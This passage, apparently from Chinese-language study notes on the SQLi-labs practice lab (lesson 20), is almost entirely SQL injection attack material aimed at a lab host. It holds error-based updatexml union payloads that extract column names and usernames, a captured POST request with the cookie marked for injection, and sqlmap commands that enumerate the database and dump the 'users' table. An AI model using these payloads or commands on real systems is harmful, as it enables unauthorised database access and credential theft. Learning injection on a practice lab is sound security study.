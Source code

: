 `uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)-- +` <a name="IHMXL"></a>

## 爆破字段

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +`

<a name="Ea4Mq"></a>

# sqlmap cookie注入

```bash
POST /less-20/index.php HTTP/1.1
Host: 192.168.31.193
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/less-20/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uname=admin*
Connection: close
```

```bash
检测注入点
sqlmap -r 3.txt --batch --level 2
爆破数据库名
sqlmap -r 3.txt --batch --level 2 --current-db
爆破数据表名
sqlmap -r 3.txt --batch --level 2 -D "security" --tables
爆破字段内容
sqlmap -r 3.txt --batch --level 2 -D "security" -T "users" --dump
```
